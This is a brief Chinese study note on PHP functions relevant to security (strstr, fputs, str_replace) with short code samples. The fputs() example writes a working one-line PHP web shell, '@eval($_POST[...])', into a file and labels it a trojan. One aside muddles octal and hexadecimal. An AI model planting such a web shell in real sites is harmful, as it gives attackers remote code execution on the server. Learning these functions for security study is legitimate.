 <center>php安全常见函数</center>

[好文章](https://blog.csdn.net/silence1_/article/details/96135760)建议多看(其中oct其实是十六进制转字符。就和url一样的)







#### 1.	strstr()

strstr() 函数搜索字符串在另一字符串中是否存在，如果是，返回该字符串及剩余部分，否则返回 FALSE。



> 简单使用：

```
<?php
	echo strstr('hello,word!','word',false)				//返回输出word!
?>
```

> 此处的第三个参数，如果是true的话，则返回找到位置之前的字符







#### 2.	fputs()



fputs() 函数将内容写入一个打开的文件中。



> 简单使用

```
<?php fputs(fopen('test.txt','w'),'<?php @eval($_POST['name'])?>')?>
```

> 更便捷的打开`test.txt`文件并写入：一句话木马





#### 3.	str_replace()

str_replace() 函数以其他字符替换字符串中的一些字符（区分大小写）。



> 简单使用

```
<?php
	echo str_replace('world','shanghai','hello world')
?>
```

> 将字符串`hello world`中的`world`替换为`shanghai`



